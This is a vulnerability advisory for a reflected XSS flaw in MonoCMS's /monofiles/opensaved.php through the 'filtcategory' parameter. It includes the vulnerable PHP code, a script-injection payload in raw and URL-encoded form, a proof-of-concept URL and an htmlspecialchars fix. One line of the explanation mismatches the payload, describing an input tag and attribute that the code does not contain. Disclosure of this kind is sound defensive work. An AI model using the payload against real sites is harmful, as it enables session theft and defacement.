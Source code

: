 # [XSS vulnerability] found in MonoCMS 23-20240528 - (/monofiles/opensaved.php)


Affected Project: **MonoCMS**

Web: Php

Vendor: MonoCMS

Official Website: (https://monocms.com/)

Version: 23-20240528

Updated: 28 May, 2024

Related Code file: /monofiles/opensaved.php

Injection parameter: `filtcategory`

<br />

Sha1: 9532cda20cf7fa456d6f00ce0fe194767913ba83

<br />

## Vulnerability Description:
The issue arises because the `filtcategory` parameter from the URL is being directly inserted into the value attribute of an HTML input element without proper sanitization. 
This allows an attacker to inject arbitrary HTML or JavaScript code leading to an XSS attack.

<br />

## Vulnerable code:
```
if (isset($_GET['filtcategory']))
    echo '<option value="#">'. $_GET['filtcategory'].'</option>'.PHP_EOL.'<option value="opensaved.php'.$clink.'">All</option>';
```

<br />

## Injection Payload Tested:

We set `filtcategory` to:
```
</option><script>alert('XSS');</script><option>
```

<br />

## URL-encoded, this becomes:
```
%3C%2Foption%3E%3Cscript%3Ealert('XSS');%3C%2Fscript%3E%3Coption%3E
```

<br />

## Resulting HTML After Injection:
```
<option value="#"></option><script>alert('XSS');</script><option></option>
```


The injected `"></script>` closes the value attribute and the input tag, allowing the `<script>` tag to be inserted into the DOM.

<br />

## Execution:

When the browser parses this HTML, it executes the `</option><script>alert('XSS');</script><option>` code, resulting in a popup displaying `"XSS"`.

<br />

## Demonstration:

Below is how `/monofiles/opensaved.php` looks like:

<br />

![opensaved.php](https://i.postimg.cc/XNBmMxsN/1.png)

<br />

Then we can add our payload `</option><script>alert('XSS');</script><option>` :
```
http://localhost:8080/monofiles/opensaved.php?filtcategory=</option><script>alert('XSS');</script><option>
```

<br />

![payload](https://i.postimg.cc/7Yvcq7R3/2.png)

<br />

After submitting the url with the vulnerable parameter `filtcategory` and the XSS payload `</option><script>alert('XSS');</script><option>`, XSS is triggered:

<br />

![xss](https://i.postimg.cc/KvnWjjXd/3.png)

<br />

## Recommendation for Preventing XSS:

To fix this vulnerability, we must always sanitize user inputs before rendering them in the HTML. We can use functions like htmlspecialchars() in PHP to encode special characters.

<br />

Example:
```
if (isset($_GET['filtcategory']))
    echo '<option value="#">' . htmlspecialchars($_GET['filtcategory'], ENT_QUOTES, 'UTF-8') . '</option>' . PHP_EOL . '<option value="opensaved.php' . $clink . '">All</option>';
```

<br />

> One Click Can Change Everything: Be Secure.
